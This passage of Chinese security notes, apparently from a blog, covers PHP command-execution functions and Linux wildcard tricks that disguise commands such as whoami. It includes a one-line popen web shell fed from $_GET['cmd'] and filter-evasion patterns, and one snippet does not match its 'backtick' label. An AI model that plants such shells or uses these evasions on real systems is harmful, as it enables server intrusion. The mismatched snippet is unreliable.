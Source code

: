 - shell_exec

  不自带输出，配合输出函数能够输出完整结果

- passthru

  自带输出

- popen

  能够执行OS命令，返回一个文件指针，一般将命令执行结果写入文件

  ```
  <?php echo '<pre>';popen($_GET['cmd'].'>> 123.txt','r');?>
  ```

- ``反引号

  调用shell_exec函数执行命令，无自带回显

  ```
  <?php echo '<pre>';$cmd=$_GET['cmd'];print("$cmd");?>
  ```

### windows多命令执行

![image-20220916102226379](https://oos.luoyunhao.com/blog-img/202209161022493.png)

### Linux多命令执行

![image-20220916102912669](https://oos.luoyunhao.com/blog-img/202209161029717.png)

## 命令执行变形

Linux

### 通配符

- *在bash内代表多个字符（linux）

  ```
  /usr/bin/whoami -> /*r/*n/wh*mi
  ```

- ?在bash内代表一个字符

  ```
  /usr/bin/whoami -> /?sr/?in/wh??mi
  ```

- [,]代表匹配其中一个字符

  ```
  /usr/bin/whoami -> /[a,b,u,s]sr/[a,b,u,s]in/[a,b,u,s,w]hoami
  ```

- [-]代表连续的字符

  ```
  /usr/bin/whoami -> /u[a-z]r/b[a-z]n/[a-w]hoami
  ```
